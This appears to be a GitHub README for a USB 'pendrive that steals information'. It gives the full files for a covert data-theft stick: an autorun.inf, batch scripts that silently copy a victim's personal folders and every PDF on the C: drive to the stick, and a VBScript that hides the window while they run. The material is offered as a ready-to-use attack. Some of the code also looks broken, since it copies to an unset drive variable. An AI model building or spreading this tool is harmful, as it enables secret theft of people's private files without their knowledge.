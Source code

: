 # Copy_FIles
 pendrive that steals information
Step 1: Materials Needed
           1.USB Pendrive 8 GB or more

Step 2: Create Autorun File(autorun.inf)
	[autorun]
	icon=drive.ico
	open=vamokivamo.bat
	Action=Press ENTER to continue 
	shell\open\command=vamokivamo.bat


Step 3: Make the File for Copy(.chupacabra.bat)
	@echo off
	:: variables
	SET odrive=%odrive:~0,2%
	set backupcmd=xcopy /s /c /d /e /h /i /r /y
	echo off
	%backupcmd% "%USERPROFILE%\pictures" "%drive%\copy\pics"
	%backupcmd% "%USERPROFILE%\Favorites" "%drive%\copy\Favorites"
	%backupcmd% "%USERPROFILE%\videos" "%drive%\copy\vids"
	%backupcmd% "%USERPROFILE%\Download" "%drive%\copy\Download"
	%backupcmd% "%USERPROFILE%\Desktop" "%drive%\copy\Desktop"
	%backupcmd% "%USERPROFILE%\Music" "%drive%\copy\Music"
	%backupcmd% "%USERPROFILE%\Documents" "%drive%\copy\Documents"
	@echo off
	cls

Step 3.1: Make the Copy PDF files(.chupacabrapdf.bat)
	@echo off 
	:: variables 
	SET odrive=%odrive:~0,2% 
	set backupcmd=xcopy /s /c /d /e /h /i /r /y 
	echo off 
	for /r C:\ %%x in (*.pdf) do xcopy %%x "%drive%\copy"
	@echo off 
	cls

Step 4: Make a Script to hide other files(invisible.vbs)
	CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False

Step 5: Make a Batch File(vamokivamo.bat) 
	wscript.exe \invisible.vbs .chupacabra.bat
	
Step 6: Create Directory copy 

Step 7: Put All Files in the Pen Root